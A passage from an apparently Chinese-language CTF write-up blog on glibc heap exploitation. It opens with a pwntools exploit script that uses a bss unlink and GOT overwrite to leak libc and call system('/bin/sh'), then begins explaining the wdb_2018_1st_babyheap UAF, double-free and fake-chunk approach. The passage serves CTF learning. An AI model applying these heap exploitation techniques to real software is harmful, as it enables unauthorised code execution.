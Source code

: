 ```python

ptr = bss + 16
pl = p64(0) + p64(0x21) + p64(ptr-0x18) + p64(ptr-0x10)
pl += p64(0x20) + p64(0x90)
edit(2,0x30,pl)
free(3)
pl = p64(0)*3 + p64(free_got) + p64(0) + p64(puts_got)
edit(2,0x30,pl)

edit(2,0x8,p64(puts_plt))
free(4)
leak = leak_address()
info_addr("puts_addr",leak)
libcbase = leak - libc.sym['puts']
info_addr("libcbase",libcbase)
system = libcbase + libc.sym['system']

edit(2,0x8,p64(system))
edit(5,0x8,b'/bin/sh\x00')
free(5)

p.interactive()
```



## wdb_2018_1st_babyheap
[题目](https://buuoj.cn/challenges#wdb_2018_1st_babyheap)
难！

整个程序就一个UAF漏洞：
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711223548816-1621299948.png)

而且限制了10次add，3次edit。
注意到堆块的信息还是在bss上开指针存的，所以考虑unlink打bss。

首先，要想办法泄露libc，由于3次edit的限制，我们只能考虑最初始的方法：unsorted bin泄露libc。
但题目定死了malloc(0x20)，![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711224216199-1192332731.png)
所以要考虑先UAF改fd把chunk_header打出来，然后修改size。
所以第一次我们需要先double free打出堆地址。
泄露libc后，再打unlink，修改bss的指针段，劫持got表getshell。

double free泄露heap地址：
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711225112153-934915857.png)

double free修改fastbin的fd指针:
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711231235219-615411596.png)

然后申请回来chunk0并伪造unlink的fake chunk(同时注意伪造一下size为0x31(0x30的index都行)，通过fastbin申请的检测):
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711231354713-1472139947.png)
